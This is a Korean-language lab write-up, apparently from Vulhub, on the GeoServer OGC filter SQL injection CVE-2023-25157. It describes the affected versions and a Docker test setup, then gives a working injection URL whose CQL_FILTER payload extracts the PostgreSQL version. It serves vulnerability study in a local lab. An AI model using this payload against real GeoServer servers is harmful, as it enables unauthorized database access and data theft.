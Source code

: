 GeoServer OGC 필터 SQL 인젝션 (CVE-2023-25157)
English version(영어 버전)

GeoServer는 공간 데이터를 보고, 편집하며 공유할 수 있는 자바로 작성된 오픈소스 소프트웨어 서버입니다. 지리 정보 시스템(GIS) 데이터베이스, 웹 기반 데이터 및 개인 데이터 세트와 같은 다양한 소스에서 공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.

2.22.1 이전 버전 및 2.21.4에서는 Open Geospatial Consortium (OGC) 표준으로 정의된 필터 및 함수 표현식에서 SQL 인젝션 문제가 발견되었습니다.

참고:

https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

취약한 환경
다음 명령을 실행하여 GeoServer 인스턴스 2.22.1을 시작 할 수 있습니다:

docker compose up -d


서버가 시작되면 http://your-ip:8080/geoserver에서 GeoServer의 기본 페이지를 찾아볼 수 있습니다.

## Exploit

먼저 취약점을 공격하기 전에 PostGIS 데이터 저장소가 있는 기존의 작업 공간을 찾아야 합니다. Vulhub의 GeoServer 인스턴스는 이미 PostGIS 데이터 저장소를 가지고 있습니다:

-작업 공간 이름: vulhub
-데이터 저장소 이름: pg
-피처 타입(테이블) 이름: example
-피처 타입의 속성 중 하나: name

다음 간단한 URL로 서버를 공격 할 수 있습니다:


http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true


1.png

보시다시피, SQL 인젝션을 통해 GeoServer에서 PostgreSQL의 버전이 검색 되었습니다.
